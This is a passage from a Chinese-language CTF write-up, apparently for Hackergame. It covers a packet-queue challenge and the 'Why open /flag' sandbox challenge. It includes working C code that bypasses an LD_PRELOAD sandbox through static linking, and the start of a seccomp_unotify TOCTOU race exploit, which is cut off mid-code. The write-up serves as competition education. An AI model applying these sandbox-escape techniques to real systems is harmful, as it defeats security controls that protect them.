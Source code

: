 ```python

def main():
    q = nfq()
    q.bind(1, packet_callback)

    try:
        q.run()
    finally:
        q.unbind()

if __name__ == "__main__":
    main()
```
保持脚本运行，正常访问第二关的地址得到第二关flag：
```shell
curl -X POST -d "<token>" http://192.168.23.1:18081
```

第三关，大概看出来是要对每个数据包都加入"GET / HTTP"字符串，而且syn之类的握手包也不能例外。这里错误的理解了--from 0 --to 50以为是tcp payload的部分（结果是从IP包头开始的），在各种尝试用scapy构造数据包、修seq；然而始终都没有用scapy正常发出过一个正常的http请求并收到响应，最终放弃。  

## 为什么要打开 /flag 😡

曾记得前几届hackergame的群里出现过一句名言：排行榜是动态的，一血榜是永久的。  
所以，想榜上留名，最好的方法是开赛大部分人都在抢签到题时选一个冷门分类啃下来一道一血。  
（事实证明这个策略很有效，今年的总排行榜卷到爆炸。。。）  

第一关LD_PRELOAD，动态链接器ld.so会用这个环境变量，所以只要静态链接即可绕过：  
```c
#include <unistd.h>
#include <fcntl.h>

int main(void) {
        char buf[4096];
        int fd = open("/flag", 0);
        int r = read(fd, buf, 4096);
        write(1, buf, r);
        close(fd);
        return 0;
}
```
```shell
gcc -static level1.c -o level1
```

第二关seccomp限制了系统调用，但opening_handler里的continue_syscall一眼看上去就有TOCTOU的危险；查了下seccomp_unotify的man page以及rust的这个库，都给出了同样的警告。所以解法已经出来了，用多线程/多进程不断改变参数的内存，期望在检查时通过然后在实际执行时换回flag的路径。  

但是，总感觉解法出来的太容易了怀疑有暗坑，为了求一手稳，想着先在本地测试一下，于是后台docker pull着（因为apt-get直接装的rust在编译时出错，自己又不懂rust不会修；另：rust的安全设计理念确实很好(C/C++代码要想写的完备往往也会有意无意的遵循rust编译器强制执行的约束)，但个人不太喜欢它的语法；而且，做逆向时真的不想遇到rust编译出的二进制程序），转头去做*逆向工程不需要F5*。结果网速爆炸硬是两个小时没拉下来镜像，直到傍晚发现第二关一血出了……果断认定思路成立，不再纠结本地测试，直接硬写：  
```c
#include <sys/mman.h>
#include <unistd.h>
#include <fcntl.h>
#include <pthread.h>

void store(char *s, int offset, int value) {
        s[offset] = value;
}

int main(void) {
        // alarm(1);
        char buf[4096];
        volatile char *name = mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED, -1, 0);
```